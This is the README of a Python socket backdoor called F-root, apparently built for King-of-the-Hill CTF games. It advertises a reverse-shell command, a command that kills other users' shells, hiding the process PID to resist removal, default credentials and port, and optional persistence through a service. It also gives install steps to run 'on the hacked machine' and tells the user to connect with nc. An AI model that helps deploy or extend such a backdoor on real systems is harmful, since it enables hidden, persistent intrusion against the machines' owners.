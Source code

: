 ![banner](https://cdn.discordapp.com/attachments/953295200200065056/1093675758922248213/Screenshot_2023-04-06_20-16-15.png)


<h1>F-root Backdoor</h1> 

> :warning: In development

### Topics

#### [Description](#description)
#### [Perks](#perks)
#### [configuration](#configuration)
#### [requisites](#requisites)

## **Description**
<p align="justify">
  A Simple Backdoor Made in Python Using Sockets I Believe It's Simple To Handle Other Than It Hides PID From Connections Making The Backdoor Better For Games Like Koth 
</p>

## Requisites
Python3 (tested on: Python 3.11.2, 3.9.9)

if possible root in the machine
## Perks

### Revshell
The backdoor can make a Revshell for other devices Only using a command #revshell
![revshell](https://cdn.discordapp.com/attachments/953295200200065056/1093672538078453770/Screenshot_2023-04-06_20-04-06.png)
### Kill
In Game Situations (Koth) It Would Be Ideal to Create a Command to Kill Any Shell Existing on the Machine With tty Only using a command #kill
![kill](https://media.discordapp.net/attachments/953295200200065056/1093674460638351410/Screenshot_2023-04-06_20-11-44.png?width=1219&height=762)

### Login System
The backdoor has a login system so that if someone connects you will need a login and password :)
![login](https://cdn.discordapp.com/attachments/953295200200065056/1093676969167704074/Screenshot_2023-04-06_20-21-07.png)

### Hidden PID
The backdoor Hides The PID of the process that is done through the server making it difficult to remove the backdoor
![hidden](https://cdn.discordapp.com/attachments/953295200200065056/1093682587345633342/Screenshot_2023-04-06_20-44-02.png)


## Configuration
Change the passwords or the port if you want to default the port is 2222 and the login and password are `froot:detrew`

If you want to simplify things run the file install.sh (Modify the file Server.py before)

if you don't just change things in the file and it's ready to run, if you want to add an extra persistence you can add a service that will run the file

## Install 
### On The Hacked Machine
```
git clone https://github.com/Detrew/f-root-backdoor
cd f-root-backdoor
chmod +x install.sh
bash install.sh
```
### On Your Machine Connect Using nc
`nc IP PORT`

### problems or doubts my discord is Detrew#0600
